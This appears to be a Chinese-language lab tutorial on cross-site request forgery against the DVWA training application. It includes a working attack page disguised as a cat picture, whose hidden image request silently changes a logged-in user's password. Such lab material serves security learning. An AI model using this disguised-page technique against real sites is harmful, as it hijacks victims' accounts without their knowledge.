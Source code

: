 ## 一、CSRF
- 利用网站对浏览器的信任，伪造请求，如：替我发帖、修改密码、转账
- 制作一个独立的、看似无害的HTML网站，当一个已经登陆DVWA的用户访问时，他们在DVWA中的密码会被自动修改成预设的值
## 二、攻击流程
### 2.1 侦测目标表单
- DVWA Security为low
- DVWA切换至CSRF
- 设置firefox代理，开启Burp Suite，拦截
- 输入新密码，点击"Change"
- 捕获请求`GET /dvwa/vulnerabilities/csrf/?password_new=123456&password_conf=123456&Change=Change HTTP/1.1`
    - 请求方法是GET
    - 请求路径是/dvwa/vulnerabilities/csrf/
    - 三个参数`password_new`,`password_conf`,`Change`
### 2.2 制作钓鱼网站
- kali上创建一个新文本文件`attack.html`
- 文本编辑器打开并添加代码
```
<!DOCTYPE html>
<html>
    <head>
        <title>一张可爱的猫咪图片</title>
    </head>
    <body>
        <h1>每日猫咪</h1>
        <p>这是一只非常可爱的小猫！</p>
        <img src="https://placehold.co/600x400/EFEFEF/AAAAAA&text=Cute+Cat+Image" width="600">

        <!-- 看不见的恶意代码 -->
        <img src="http://192.168.174.130/dvwa/vulnerabilities/csrf/?password_new=hacked&password_conf=hacked&Change=Change" style="display:none;">
    </body>
</html>
```
   - 表面是图片，实则看不见的<`img`>标签(`style="display:none;"`让它在页面上隐形)
   - 浏览器加载页面时，会加载所有图片，包括看不见的，为加载它，浏览器会向它的`src`地址发起一个GET请求
   - 如果这个浏览器在另一个标签页登录着DVWA，它在发送这个请求时，会自动把DVWA的登陆Cookie也一起带上
   - DVWA服务器收到这个带有合法Cookie的请求，认为是用户本人操作，于是把密码改成了`hacked`
### 2.3 攻击
   - 浏览器标签页登录DVWA
   - 在同一个浏览器的另一个新标签里，打开创建的`attack.html`文件
   - 回到DVWA标签页，退出，用原来密码登录，失败
   - 用新密码`hacked`登录，成功
## 三、总结
- CSRF和XSS的根本区别：一个是在利用网站对你浏览器的信任，另一个是直接在网站里执行代码
